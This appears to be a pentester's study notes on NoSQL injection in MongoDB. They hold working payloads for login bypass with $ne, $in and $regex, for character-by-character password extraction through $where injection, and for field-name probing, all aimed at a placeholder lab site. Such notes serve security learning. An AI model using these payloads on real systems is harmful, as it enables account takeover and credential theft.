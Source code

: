 ```sh
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
# This query returns all login credentials where user&pass are not equal to invalid (login w/ first user on collection)
# To target an account, you can construct a payload that includes a known username, or a username that you've guessed
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
# Regex
{"username":  {"$regex":"admin.*"} 
{"username":  {"$regex":"^admin.*"}
{"username":  {"$regex":"admin.*", "$options":"i"} # insensitive
```
{% endcode %}

## Exploiting syntax injection to extract data

{% code overflow="wrap" fullWidth="true" %}
```sh
In many NoSQL databases, some query operators or functions can run limited JavaScript code -> $where, mapReduce()
####################### Exfiltrating data in MongoDB
# Consider a vuln app that allows users to look up other registered usernames and displays their role:
https://insecure-website.com/user/lookup?username=admin
# This results in the following NoSQL query of the users collection:
{"$where":"this.username == 'admin'"}
# As the query uses the $where operator -> inject JavaScript functions into this query to return sensitive data:
admin' && this.password[0] == 'a' || 'a'=='b
# This returns the first character of the user's password string, enabling you to extract the password char by char
# You could also use the JavaScript match() function to extract information. For example, identify if pwd has digits:
admin' && this.password.match(/\d/) || 'a'=='b

####################### Identifying field names
# MongoDB handles semi-structured data that doesn't require a fixed schema -> identify valid fields to extract data
# To identify whether the MongoDB database contains a password field, you could submit the following payload:
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
# Send the payload again for an existing field and for a field that doesn't exist (you know username exists so send):
admin' && this.username!=' admin' && this.foo!='
# If the password field exists, you'd expect the response to be identical to the response for the existing field 
# (username), but different to the response for the field that doesn't exist (foo). 
# To test different field names -> dictionary attack (wordlist to cycle through different potential field names)

# EXAMPLE: extract administrator password
/user/lookup?user=myuser
myuser' && this.password[0] == 'p' || 'a'=='b    # in case we know first char of the password, we can know if it works
administrator' && this.password.length > 8 || 'a'=='b # Then find password length
When we know password length > Intruder > Cluster bomb
administrator' && this.password[0] == 'p' || 'a'=='b # add payload to 0 and p (password digit iteration and char)
First payload will be 0-1-2..-till password length, second will be alphanumeric or any other symbols might exist on pwd
```
{% endcode %}
